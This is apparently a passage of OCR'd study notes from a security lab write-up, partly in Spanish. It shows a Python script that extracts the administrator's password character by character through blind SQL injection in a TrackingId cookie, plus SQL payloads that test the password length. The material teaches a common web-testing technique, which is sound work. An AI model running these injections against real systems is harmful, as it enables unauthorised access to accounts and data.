 ```

    password= ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Password")

    for position in range (1,21):

        for character in characters:

            cookies={
                    'TrackingId': "Aj5ssHgGJVRWPd20' and (select substring(password,%d,1) from users where username='administrator')='%s" % (position,character),
                    'session':'JbkRaGD0Lu60I2GND3GnvLhf8OE149pK'
            }
            
            p1.status(cookies['TrackingId'])

            r = requests.get(main_url, cookies=cookies)

            if "Welcome back!" in r.text:
                password += character
                p2.status(password)
                break

if __name__== '__main__':
    
    makeRequest()



```
sys exit(1) is a unsuccesfull code, or error code.

def_handler is a function that permites us to make ctrl c






## How do we know the length of the password##



```
BnrNOCeQTPXBkC9m' and (select 'a' from users where username='administrator' and length(password)>5)='a; 
```
Here we see that is 20, beause we found no errors
```
BnrNOCeQTPXBkC9m' and (select 'a' from users where username='administrator' and length(password)>=20)='a; 
```
